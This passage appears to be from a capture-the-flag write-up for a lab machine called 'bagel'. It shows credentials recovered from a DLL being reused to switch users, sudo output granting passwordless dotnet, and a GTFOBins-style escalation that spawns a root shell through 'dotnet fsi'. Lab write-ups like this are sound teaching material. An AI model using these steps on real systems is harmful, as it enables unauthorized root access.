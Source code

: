 Creds found form the dll binary, reused for user "developer" in `su`

And user "developer" can run `/usr/bin/dotnet` with sudo
```bash
[phil@bagel tmp]$ su developer
Password: 
[developer@bagel tmp]$ sudo -l
Matching Defaults entries for developer on bagel:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE
    KDEDIR LS_COLORS", env_keep+="MAIL QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION
    LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE
    LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/var/lib/snapd/snap/bin

User developer may run the following commands on bagel:
    (root) NOPASSWD: /usr/bin/dotnet
```

Exploit -> https://gtfobins.github.io/gtfobins/dotnet/#sudo

```bash
sudo /usr/bin/dotnet fsi
System.Diagnostics.Process.Start("/bin/sh").WaitForExit();;
```

![](screenshots/rooted.png)
